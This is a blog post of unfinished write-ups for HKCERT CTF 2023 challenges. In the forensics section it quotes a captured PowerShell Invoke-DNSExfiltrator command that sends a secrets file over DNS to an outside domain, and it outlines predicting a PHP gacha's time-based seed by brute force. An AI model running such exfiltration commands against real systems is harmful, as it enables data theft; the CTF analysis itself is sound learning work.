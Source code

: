 ```yaml
---
layout: post
title:  "HKCERT CTF 2023 Writeups - Undones"
date:   2023-11-10 21:00:00 +0800
category: 
    - ctf
    - hkcert23ctf
---
```


Here is the writeup for all undone challenges - *sigh*

> `hkcert23{he110_aga1n_4nd_we1c0m3_t0_hkc3r7_c7f}`

## 收到收到 (0/200 pts) (with guide)

The official guide is [here](https://hackmd.io/@blackb6a/hkcert-ctf-2023-i-en-a58d115f39feab46#%E6%94%B6%E5%88%B0%E6%94%B6%E5%88%B0--yes-I-know-I-know-Forensic).

### Exploration

While exploring the pcapng file, I found
    Invoke-DNSExfiltrator -i C:\Users\Tom\Desktop\secrets.txt.txt -d igotoschoolbybus.online -p 'K#2dF!8t@1qZ' -s 192.168.135.135
as well as some strange bytes after it. A Google search indicated that there may be RC4 encryption being used.  

Alas, I'm unable to reverse the encryption (I might have looked into not the correct bytes).

## 轉蛋模擬器 (0/250 pts) (with guide)

The official guide is [here](https://hackmd.io/@blackb6a/hkcert-ctf-2023-ii-zh-e2ef72e18599ccdb#%E8%BD%89%E8%9B%8B%E6%A8%A1%E6%93%AC%E5%99%A8--Gacha-Simulator-Reverse).

### Exploration

I do not have 32-bit Office, and thus the original exploit cannot be ran without significant time.  
Should have invested time to make a sandbox Windows machines next time, ahaha~

## Fake/Ground Offer (0/250 pts)

### Exploration

This gacha code looks fishy...

    $seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed

    function gacha($n,$s){
        $out = [];

        for($i=1;$i<=$n;$i++){
            $x = sin($i*$s);
            $r = $x-floor($x);
            $out[] = lookup($r);
        }
        return $out;
    }

    function lookup($r){
        if($r <= 0.001){
            $_SESSION["inventory"]["UR"] += 1;
            return "UR";
        }elseif($r <= 0.004){
            $_SESSION["inventory"]["SSR"] += 1;
            return "SSR";
        }elseif($r <= 0.009){
            $_SESSION["inventory"]["SR"] += 1;
            return "SR";
        }elseif($r <= 0.016){
            $_SESSION["inventory"]["R"] += 1;
            return "R";
        }else{
            $_SESSION["inventory"]["N"] += 1;
            return "N";
        }
    }

If I draw only 1 card, and get knowledge about the pin somehow, I can draw the cards at the correct time in the hour and get some SSRs.

The pin may be reversed by sending 3600 requests to the server to determine the current shift (note $seed is a periodic function with length 3600). If you can synchronize it... you can break the gacha.

But I do not know how to gain access to $pin w/o bruteforcing. 